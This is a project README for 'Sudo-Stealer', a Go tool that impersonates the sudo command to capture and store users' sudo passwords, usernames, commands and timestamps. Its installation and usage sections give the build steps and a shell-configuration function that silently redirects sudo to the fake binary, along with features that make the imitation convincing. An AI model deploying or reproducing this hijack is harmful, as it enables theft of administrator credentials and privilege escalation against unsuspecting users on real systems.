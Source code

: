 # Sudo-Stealer

[![made-with-Go](https://img.shields.io/badge/Made%20with-Go-1f425f.svg)](https://go.dev/)
[![GitHub go.mod Go version of a Go module](https://img.shields.io/github/go-mod/go-version/Genaro-Chris/Sudo-Stealer)](https://github.com/gomods/athens)

Sudo-Stealer is an *nix program for stealing sudo passwords by disguising as the original sudo software. Its capabilities are almost similar to that of the original sudo program as such as displaying the same input messages, error messages like incorrect attempts and also handling of some system signals such as SIGQUIT, SIGINT & SIGTSTP. It verify the password, stores it in json support as well as username, the command that was executed and the execution time in a file for later usage.

It was tested on a linux specifically Kali linux :) but I think it's applicable on any *nix system because of their similarities while using shell or terminal.


## Requirements

Any *nix system with terminal & wget.

Golang 1.18.2 or higher.

If Golang not found. Install Golang with wget
```bash
  wget https://go.dev/dl/go1.18.x.linux-amd64.tar.gz
```
Extract to /usr/local/go directory/folder
```bash
   tar -C /usr/local -xzf go1.18.x.linux-amd64.tar.gz
```
Set your GOPATH 
```bash 
  export GOPATH=/any folder of your choice
```
Add your GO bin directory to PATH 
```bash
  export PATH=$PATH:/usr/local/go/bin 
```
But if Golang 1.18.2 or higher is found, then proceed

## Installation

Download with Git
```bash
  git clone https://github.com/Genaro-Chris/Sudo-Stealer
```
Compile to binary name `sudo`
```bash 
  cd Sudo-Stealer
  go build -o ./sudo .
```
or download pre-compiled binary from [here](https://github.com/Genaro-Chris/Sudo-Stealer/releases)


## Usage

Find your shell configuration file. It's usually a file in your home directory that ends with rc.

Examples 
```javascript
  .bashrc
  .cshrc
  .zshrc
```
Then add execute permission to the sudo executable
```bash
  chmod +x /path/to/sudo
```

Add the following line to the end of your shell configuration file.
```bash
  sudo() { /path/to/sudo "${@:1}" }
```



## Features

- Maximum of 3 wrong password attempts
- Timeouts the superuser session's after 15 minutes
- No need to enter password again after first correct attempt 
- Stores correct passwords with their respective commands and the time it was executed



## Screenshots

![App Screenshot](./img/Screenshot-1.png/)

![App Screenshot](./img/Screenshot-2.png/)

![App Screenshot](./img/Screenshot-3.png/)

![App Screenshot](./img/Screenshot-4.png/)


## Feedback

If you have any feedbacks, issues, code improvements of any sort, contributions, or even collaborations on any of your projects.

Please reach out to me at [here](mailto:christian25589@gmail.com)
